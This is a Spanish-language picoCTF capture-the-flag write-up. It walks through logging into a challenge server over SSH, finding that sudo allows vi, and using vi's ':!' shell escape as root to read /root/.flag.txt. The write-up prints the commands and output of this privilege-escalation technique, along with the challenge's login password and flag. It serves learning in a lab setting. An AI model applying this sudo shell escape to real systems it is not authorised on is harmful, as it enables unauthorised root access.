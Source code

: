 ### Descripción
Can you read files in the root file?

Additional details will be available after launching your challenge instance.
#### Una vez iniciada la instancia del desafío:
The system admin has provisioned an account for you on the main server:`ssh -p 60418 picoplayer@saturn.picoctf.net`Password: `UYiOazkqY2`Can you login and read the root file?
### Solución
En el shell virtual de la página, iniciamos colocando el comando **ssh** para hacer la conexión vía remota al servidor, donde después de ingresar la contraseña proporcionada por la descripción del reto, accedemos al servidor como se puede ver a continuación:

```shell
the_robx-picoctf@webshell:~$ ssh -p 60418 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:60418 ([13.59.203.175]:60418)' can't be established.
ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:60418' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```

Una vez dentro, hacemos un **ls** para poder ver el contenido del directorio donde estamos pero no muestra nada, por lo que usamos `cd /` para cambiarnos al directorio raíz, una vez ahí volvemos a hacer un ls para ver el contenido del directorio raíz:

```shell
picoplayer@challenge:~$ ls
picoplayer@challenge:~$ cd /
picoplayer@challenge:/$ ls
bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

Usamos el argumento **-la** para obtener mas detalles del contenido del directorio raíz, de aquí es donde resulta llamativo el directorio **root**:

```shell
picoplayer@challenge:/$ ls -la
total 0
drwxr-xr-x   1 root   root     51 Feb 20 01:24 .
drwxr-xr-x   1 root   root     51 Feb 20 01:24 ..
-rwxr-xr-x   1 root   root      0 Feb 20 01:24 .dockerenv
lrwxrwxrwx   1 root   root      7 Mar  8  2023 bin -> usr/bin
drwxr-xr-x   2 root   root      6 Apr 15  2020 boot
d---------   1 root   root     27 Aug  4  2023 challenge
drwxr-xr-x   5 root   root    340 Feb 20 01:24 dev
drwxr-xr-x   1 root   root     66 Feb 20 01:24 etc
drwxr-xr-x   1 root   root     24 Aug  4  2023 home
lrwxrwxrwx   1 root   root      7 Mar  8  2023 lib -> usr/lib
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root     10 Mar  8  2023 libx32 -> usr/libx32
drwxr-xr-x   2 root   root      6 Mar  8  2023 media
drwxr-xr-x   2 root   root      6 Mar  8  2023 mnt
drwxr-xr-x   2 root   root      6 Mar  8  2023 opt
dr-xr-xr-x 323 nobody nogroup   0 Feb 20 01:24 proc
drwx------   1 root   root     23 Aug  4  2023 root
drwxr-xr-x   1 root   root     54 Feb 20 01:27 run
lrwxrwxrwx   1 root   root      8 Mar  8  2023 sbin -> usr/sbin
drwxr-xr-x   2 root   root      6 Mar  8  2023 srv
dr-xr-xr-x  13 nobody nogroup   0 Feb 20 01:24 sys
drwxrwxrwt   1 root   root      6 Aug  4  2023 tmp
drwxr-xr-x   1 root   root     18 Mar  8  2023 usr
drwxr-xr-x   1 root   root     17 Mar  8  2023 var
```

Se hace el intento de acceder al contenido del directorio **root** mediante ls, pero como podemos ver a continuación, no tenemos el permiso para hacer la acción:

```shell
picoplayer@challenge:/$ ls root/
ls: cannot open directory 'root/': Permission denied
```

Por eso se recurre a usar el comando **sudo -l** para conocer los privilegios del usuario actual, una vez ingresada la contraseña, podemos ver solo tenemos los permisos para vi (que es un editor de texto que maneja en memoria el texto entero de un archivo):

```shell
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

Por lo que nos disponemos a usar el comando vi, con lo cual nos abre un editor de texto:

```shell
picoplayer@challenge:/$ vi
```

Una vez dentro de ahí intentamos volver a ejecutar el comando **ls /root**:

```
:! ls /root
```

Por lo que una vez digitado nos muestra lo siguiente:

```
ls: cannot open directory '/root': Permission denied

shell returned 2

Press ENTER or type command to continue
```

Entonces cerramos ese editor vi con **:q**, una vez fuera ingresamos a vi pero ahora en modo **sudo** (superusuario):

```
picoplayer@challenge:/$ sudo vi
[sudo] password for picoplayer: 
```

Después de ingresar la contraseña para sudo, ingresamos el comando ls -al /root para conocer con más detalle el contenido de ese directorio:

```
:! ls -al /root
```

Ahora nos muestra la lista de archivos donde resalta el archivo de texto "*.flag.txt*", ya que se supone que contiene la bandera para solucionar este reto:

```
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Feb 20 01:40 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
```

Una vez más dentro de vi, ejecutamos el comando **cat** para ver el contenido del archivo de texto *.flag.txt*.

```
:! cat /root/.flag.txt
```

Con lo que ahora sí por fin nos arroja la bandera que resuelve este reto:

```
picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}
```
### Notas Adicionales
En el caso de vi `:!`, el prefijo `:` es usado para entrar en el modo de comandos de `vi`, y el `!` indica que se desea ejecutar un comando de sistema (como si fuera una terminal normal)
### Referencias
https://www.ionos.mx/digitalguide/servidores/configuracion/linux-sudo/
https://www.linuxtotal.com.mx/index.php?cont=info_admon_010#google_vignette